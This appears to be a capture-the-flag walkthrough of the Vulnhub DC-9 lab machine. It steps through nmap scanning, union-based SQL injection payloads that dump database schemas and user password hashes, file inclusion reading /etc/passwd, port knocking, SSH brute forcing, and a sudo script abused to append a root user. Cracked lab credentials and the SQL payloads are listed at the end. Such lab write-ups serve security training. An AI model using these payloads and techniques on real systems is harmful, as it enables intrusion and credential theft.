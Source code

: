 # Vulnhub-DC 9

## NMAP
```bash

nmap -sC -sV 192.168.1.7

Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-16 09:31 PKT
Nmap scan report for 192.168.1.7
Host is up (0.00021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp filtered  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:b3:38:74:32:74:0b:c5:16:dc:13:de:cb:9b:8a:c3 (RSA)
|   256 06:5c:93:87:15:54:68:6b:88:91:55:cf:f8:9a:ce:40 (ECDSA)
|_  256 e4:2c:88:da:88:63:26:8c:93:d5:f7:63:2b:a3:eb:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
MAC Address: 08:00:27:1B:8F:38 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

## PORT 80 (HTTP)

<img src="https://imgur.com/wMTyQ9t.png"/>

Going to `Display All Records`

we can see information of users

<img src="https://i.imgur.com/vJVgcUf.png"/>

We can a login page , lets' try to do some basic sqli stuff

<img src="https://imgur.com/YIhwdhT.png"/>

I tried `admin ' or 1=1 #` , `admin' or 1=1 -- ` , but both failed

<img src="https://imgur.com/IBCnjDr.png"/>

Going over to `search.php` we can see that it searches for a name so let's supply the name `mary` since information for that user exists

<img src="https://imgur.com/O4Ao6Pe.png"/>

Here let's perform a query `mary' and 1=1 # ` to see if it still returns us information of mary

<img src="https://imgur.com/jAPaRIX.png"/>

<img src="https://imgur.com/ptYnVv1.png"/>

It does , so here we can actually sqli but first we need to identify how many columns are there to do that we are going to ultize `order by <number>` which will sort by value of the number of column of provide , we will keep increasing the number we get no repsonse so,

`mary' order by 1 #`

<img src="https://imgur.com/DYR1asi.png"/>
I kept getting result till  till 6 columns but after that I get no response

<img src="https://imgur.com/k7vMuoM.png"/>

<img src="https://imgur.com/DjNkMxD.png"/>

Which means we have 6 columns so we can now perform sql injection

`mary' union select version(),user(),database(),4,5,6 #`

<img src="https://i.imgur.com/MxEOkzA.png"/>

This machine is using MariaDB, user for the database client is dbuser and the database name is Staff , now we need to extract table name ,then the columns and the exfiltrate the data

We can only perform a query to give us all the names for database

```
mary' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata #
```

<img src="https://i.imgur.com/4pTkqZv.png"/>

So there two databases but right now let's just focus on `Staff`


```
mary' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database() #
```

<img src="https://i.imgur.com/e4yvYtY.png"/>

We have two tables , `StaffDetails` and `Users` so let's see column names for Users table

```
mary' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='Users' #
```

<img src="https://i.imgur.com/1xqzABC.png"/>

We have the column names , we are intersted in username and password so let's just extract the data

<img src="https://i.imgur.com/b0HMGm0.png"/>

And we got the user name password hash , this could have been done with sqlmap easilty by just intercepting the request from `search.php` and saving it to a file and running it against sqlmap

<img src="https://i.imgur.com/VYgL09W.png"/>

<img src="https://i.imgur.com/CiocyQU.png"/>

Let's visit crackstation 

<img src="https://i.imgur.com/TBizxi7.png"/>

As soon as we log in we'll get an error

<img src="https://i.imgur.com/xibM8xS.png"/>

I tried the parameter `file` and got the contents of `/etc/passwd`

<img src="https://imgur.com/9pjNcw7.png"/>

So I copied the results in a file and grab the users only 

<img src="https://imgur.com/Z4fy4Jh.png"/>

<img src="https://imgur.com/SEVrVLM.png"/>

Now remeber that we had 2 databases `Staff` and `users` , let's use sqlmap to dump data from users database

<img src="https://imgur.com/FQSbfcN.png"/>

<img src="https://i.imgur.com/SlMui9x.png"/>

I have already saved the usernames ,let's just grab the password and start brute forcing aginst SSH 
<img src="https://imgur.com/O5LsSck.png"/>

But ssh is filtered so we are going to first see if we can find a port knocking configuration or not 

<img src="https://i.imgur.com/KY7pFuF.png"/>

Now can perform port-knocking to open ssh port

<img src="https://imgur.com/onQzbec.png"/>

We found 2 passwords with brute forcing

<img src="https://imgur.com/hZHQc4y.png"/>

<img src="https://imgur.com/SLgwuOJ.png"/>

<img src="https://imgur.com/4s5mbaT.png"/>

After logging in with `janitor` we can find more passwords

<img src="https://i.imgur.com/BQUSSXB.png"/>

Let's add those passwords and again try brute forcing

<img src="https://i.imgur.com/bbX8P5r.png"/>

<img src="https://imgur.com/rTM4GXL.png"/>

Switching to user `fredf` we can that can run the file test as sudo

<img src="https://i.imgur.com/aA6ezrt.png"/>

<img src="https://imgur.com/3UZYm1H.png"/>

It's a binary , let's try to execute it and see what happens

<img src="https://i.imgur.com/GtQ6sQY.png"/>

Wierd it says test.py which is a python file which reads and appends so we need to find that python file

<img src="https://i.imgur.com/fO6V4tQ.png"/>

And we found it

<img src="https://i.imgur.com/tSAUzAa.png"/>

So going through the source code , it's going to take 2 arguments as file , it's going to read the contents from first file store it in variable then it's going to append the contents in the file we specify we could exploit this by first adding a root user in a file then reading the contents from there and appending it to `/etc/passwd` file

<img src="https://imgur.com/0xxtn7u.png"/>

<img src="https://imgur.com/gdFtj7u.png"/>

Now let's see if this actually worked or not

<img src="https://i.imgur.com/q1aN2N7.png"/>

<img src="https://i.imgur.com/Ou3Am93.png"/>

This has added a user so we can switch to this user and become root

<img src="https://imgur.com/h0UuulA.png"/>

admin:transorbital1


```
chandlerb:UrAG0D!
janitor: Ilovepeepee
joeyt: Passw0rd
fredf: B4-Tru3-001 
```
mary' union select 1,2,3,4,5,6 #

mary' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database() #

mary' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='Users' #

mary' union select group_concat(Username),group_concat(Password),3,4,5,6 from 'Users' #

mary' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata #
